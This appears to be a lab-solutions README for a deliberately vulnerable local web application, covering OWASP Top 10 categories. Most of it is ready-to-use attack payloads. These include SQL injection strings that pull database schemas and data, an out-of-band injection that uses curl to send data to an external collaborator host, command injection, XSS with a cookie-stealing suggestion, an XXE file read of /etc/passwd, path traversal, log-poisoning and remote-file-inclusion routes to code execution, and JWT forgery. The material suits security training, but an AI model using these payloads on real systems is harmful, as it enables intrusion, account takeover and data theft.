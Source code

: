 # Lab-solutions
Lab solutions

## Open redirect(BAC)
http://127.0.0.1/bac/openr/index.php?redirect=yoursite</br>

## IDOR
Login to account using username & password</br>
http://127.0.0.1/bac/idor/home.php?acnumber=2233445577  change acnumber value to 2233445566(vertical privesc) to 2233445588(horizantol)</br>

## Cryptographic failure
Fuzz the site</br>
http://127.0.0.1/crypt/FUZZ  you will get secret.db file download it & open it with sqlieditor crack the password using crackstation.net & log in to admin</br>

## Injections
### command
use ; semicolon with ip ex: 127.0.0.1;whoami</br>

### SQLI(put a single quote in ID it returns SQLI error message)
version extract using error based sqli<\br>
1'or 1=1 in (LEFT(version(), 1) = '1')#    - first char 1 in version it returns all columns data</br>
1'or 1=1 in (LEFT(version(), 2) = '10')#   - second char 10 in version it returns all columns data</br>
1'or 1=1 in (LEFT(version(), 3) = '10.')#  - third char 10. in version it returns all columns data</br>
so the version number is 10. so on<\br>

### Union
order by to guess columns</br>
1' order by 3#  upto 3 no errors after 3 error means total columns are 3</br>

### union query to extract data from columns
1'union select null,@@version,null #  getting version</br>
1'union select null,schema_name,null from information_schema.schemata#   -extract databases</br>
1'union select null,table_name,null from information_schema.tables where table_schema='databasenamefromabove'#  -extract tablenames</br>
1'union select null,column_name,null from information_schema.columns where table_schema='databasenamefromabove' and table_name='table_namefromabove'#    </br>
1'union select null,column_name_extractdata,null from tablename#  - get datafrom a specific column

### Boolean(no errors -data disappear based true false condition)
1'and if (1=1, (LEFT(version(), 1) = '1'), 'false')#  -first char is 1 and data  appear</br>
1'and if (1=1, (LEFT(version(), 2) = '10'), 'false')#  - second char is 0 and data appear</br>
so the version is 10<\br>

### delay
1' or sleep(5)#</br>

### OOB sqli
';COPY (SELECT version()) TO PROGRAM 'curl -G burpcollaborator?data=$(cat)'--   you will receive data on your burpcollaborator</br>

## XSS
### Rxss
<script>alert(123)</script></br>
### Sxss
<script>alert(123)</script></br>
### DOM
http://127.0.0.1/inject/xss/dom.html?default=<script>alert(123)</script></br>
### BLind
submit your comment payload(<script>alert(123)</script>) on comments page login to admin panel it will trigger xss</br>
use a cookie stealing payload to steal admin cookie

## Insecure design
go to reset password page & use username admin & bruteforce the OTP it will give a password & login to admin account</br>

## Security misconfiguration
create  a .xml file & add below data then upload it the portal you can see /etc/passwd file contents</br>
```
<!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]>
<root>
&test;
</root>
```

## Vulnerable & outdated components
Fuzz the files & you will find admin endpoint with login page</br>
http://127.0.0.1/wbce/admin/login/  - use admin/password deault creds to login its wbce vulnerable version. exploit it and gain code execution</br>

## identification & Authentication failure
its a input type juggling vulnerability in php</br>
capture login request just replace password= value in body to password[]=randomvalue  you can login to admin account</br>

## software & data integrity failure
login to user account with details on login portal</br>
then you can see JWT on request & response header. just decode it and replace username with admin. encode the JWT & submit. you can all admin data</br>

## Security logging & monitoring
Fuzz for log files you will find access.log file & and the attack is bruteforce you can check logs</br>


## SSRF
http://127.0.0.1/ssrf/index.php?page=burpcollaborator  you can get a dummy secret Authorization header</br>

## Path traversal
http://127.0.0.1/pathtr/index.php?page=../../../../../../etc/passwd</br>

## File inclusion
### LFI
http://127.0.0.1/fileinc/index.php?page=../../../../../var/log/apache2/access.log     - you can access log file. perform log poison to get code exection</br>
then submit your php system function payload using Useragent & access it over access.log and your parameter. you will code execution.</br>

### RFI
host your own server with a php system function based payload and access it through page parameter</br>
http://127.0.0.1/fileinc/index.php?page=http://yourserver/code.php   - it will execute the code.php file & show output on screen</br>
